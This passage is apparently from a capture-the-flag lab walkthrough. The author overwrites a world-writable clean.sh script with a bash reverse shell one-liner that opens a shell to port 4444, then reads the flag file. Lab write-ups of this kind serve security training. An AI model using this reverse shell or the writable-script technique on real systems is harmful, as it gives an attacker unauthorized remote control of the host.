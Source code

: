 <figure><img src=".gitbook/assets/Schermata del 2023-07-13 01-32-54.png" alt=""><figcaption></figcaption></figure>

Focusing on clean.sh file (that have all permissions), we can erase the bucket and put into a reverse shell script (re-uploading it).

We found reverse shell scripts on [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and we save it into a new file with duplicate name: clean.sh:

```bash
bash -i >& /dev/tcp/anonymous.thm/4444 0>&1
```







flag is usually in the path: /home

```bash
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
```
